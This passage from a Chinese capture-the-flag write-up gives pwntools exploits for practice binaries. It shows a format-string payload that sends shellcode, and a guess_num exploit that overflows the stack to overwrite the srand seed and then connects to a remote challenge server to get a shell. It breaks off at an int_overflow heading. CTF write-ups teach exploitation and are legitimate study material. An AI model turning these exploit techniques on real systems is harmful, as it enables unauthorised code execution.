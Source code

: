 ```python
payload="%085d%7$n"
p.sendline(payload)

p.sendline(shellcode)

p.interactive()

```



## guess_num ##

该题也是栈溢出漏洞的利用，只需要覆盖掉srand函数的随机种子，然后就可以预测出rand()的序列，得到shell。

预测序列的C程序如下：

```c
#include<stdlib.h>
#include<stdio.h>

int main(){
  srand(0);
  for (int i = 0;i <= 9;++i) {
    int num = rand() % 6 + 1;
    printf("%d ", num);
  }
}


```

相应的exp如下：

```python
from pwn import *
context.log_level = "debug"
context.arch = 'amd64'
# p = process("./guess_num")
p = remote("111.198.29.45", 31574)
numbers = [2,5,4,2,6,2,5,1,4,2]

payload = "a" * 0x20 + p64(0)
p.recvuntil("name:")
p.sendline(payload)
for i in range(10):
	p.recvuntil("Please input your guess number:")
	p.sendline(str(numbers[i]))

p.interactive()

```

## int_overflow ##
